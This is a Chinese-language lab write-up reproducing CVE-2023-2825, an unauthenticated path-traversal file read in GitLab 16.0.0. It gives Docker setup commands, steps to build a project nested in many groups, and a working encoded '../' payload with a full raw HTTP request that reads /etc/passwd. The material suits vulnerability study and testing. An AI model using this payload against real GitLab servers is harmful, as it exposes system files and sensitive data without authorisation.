






#  GitLab任意读取文件(CVE-2023-2825)

​	GitLab是一个用于仓库管理系统的开源项目，其使用Git作为代码管理工具，可通过Web界面访问公开或私人项目。GitLab CE/EE版本16.0.0中，当嵌套在至少五个组中的公共项目中存在附件时，可在未经身份验证的情况下通过uploads功能遍历读取任意文件，导致敏感信息泄露。


影响版本：

​	GitLab CE/EE版本：16.0.0

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2023-2825
- https://gitlab.com/gitlab-org/gitlab/-/issues/412371

## 漏洞环境

执行如下命令启动一个GitLab-v16.0.0

```

docker pull gitlab/gitlab-ce:16.0.0-ce.0     # 拉取镜像
docker run -itd -p 8443:443 -p 8880:80 -p 222:22 --name gitlab2825   gitlab/gitlab-ce:16.0.0-ce.0     # 启动环境
```

## 漏洞复现

访问`http://your-ip:8880`使用用户名root 密码： 登录系统



登录密码获取如下，

docker exec -it  xxx bash  进入容器执行以下命令查看登录密码



创建项目，创建group.



添加项目之后 点击issus 添加附件，create issue



Create issue



点击图片跳转到

http://192.168.160.128:8880/group1/group2/group3/group4/group5/group6/group7/group8/group9/group10/group11/group12/group13/group14/group15/test2/uploads/70f261576eb3cd361f59173bd2c8a69b/1.png

将1.png替换成我们的payload

%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd



```
GET /group1/group2/group3/group4/group5/group6/group7/group8/group9/group10/group11/group12/group13/group14/group15/test2/uploads/7dfe4d7981912124ac1e0f2d599a0d84/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd HTTP/1.1
Host: 192.168.160.128:8880
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=f368d9b4-14d9-4287-907c-5579c7559d1e.c9Wh3_S37WPJvNGOpx7JhuM3y8w; lang=zh-cn; vision=rnd; device=desktop; theme=default; preferred_language=en; known_sign_in=WDVia3lYUk5qbHZ0RHZVamloSHNLMDlHRnpaV0NlLzhPdXVzZ2xVNWV5SkZXMGFENjZaUEhDNGQ4Mk5VNmt0cjJ3b2RQRmVvL1R3S0RtdkdLK3dWeHJLalhVTWhzSmU5UmtNaTdEbmtiOWpDUHdmWGl4S3doTVYxd053SEF2N2QtLUxKRkhhSnlOajBUQlFQTEZmQmwzZ1E9PQ%3D%3D--e55bc276d713439c9e236036461952f94bd5cfee; _gitlab_session=057cb93e56f4937c8cce3031594a403f; sidebar_collapsed=false; 16.0.0-hide-alert-modal=true; event_filter=all
Connection: close


```

